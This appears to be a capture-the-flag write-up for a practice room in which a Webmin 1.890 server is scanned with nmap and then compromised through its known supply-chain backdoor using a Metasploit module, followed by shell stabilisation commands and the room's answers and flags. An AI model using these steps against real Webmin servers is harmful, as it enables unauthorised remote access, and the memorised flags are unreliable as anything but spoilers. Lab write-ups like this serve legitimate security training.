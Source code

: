 # Attacker KB
## 05-07-2022
## level : easy



## Discovering the lay of the land 

Nmap Scanning :
```
nmap -sV 10.10.22.55 -Pn -oN nmap.txt

```

Setting the /etc/hosts file
```
sudo nano /etc/hosts
```
then put the following line at the end of the file
```
10.10.22.55	source
```
now open it from browser
```
https://source:10000/
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Scan the machine with Nmap. What non-standard service can be found running on the high port ? | Webmin |
| Further enumerate this service, what version of it is running ? | 1.890 |
| Visit the webpage generated by this service. You should encounter an error due to SSL being present. Change the URL to use HTTPS and ignore the exception. After this, view the certificate. What hostname can we find on the cert details? On Firefox, you can view this by clicking on the 'i' in the URL, then the '>' in Connection, 'More Information', and then 'View Certificate' on the Security tab. | Source |


## Learning to Fly


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Which version of Webmin is immediately vulnerable to this exploit ? | 1.890 |
| What type of attack was this ? | Sypply Chain |
| What was the day Webmin informed of an 0day exploit ? | August 17th 2019 |
| In the assesment a Metasploit Module was added for this backdoor. What pull number was this added in ? | 12219 |




## Blasting Away

Run the Metasploit Frameword
```
msfconsole
```
Set the exploit
```
use exploit/linux/http/webmin_backdoor
```
Set the LHOST, RHOSTS and `SSL` to `true`
After setting these options just run `exploit`


Stabilizing the Shell :
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-color
```

The user flag is located at `/home/dark`

The root flag is located at `/root/`


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third options we must set to True ? | SSL |
| Run the exploit. What is the user flag ? | THM{SUPPLY_CHAIN_COMPROMISE} |
| How about the root flag ? | THM{UPDATE_YOUR_INSTALL} |






### Thank You For Reading this

#    THE END    
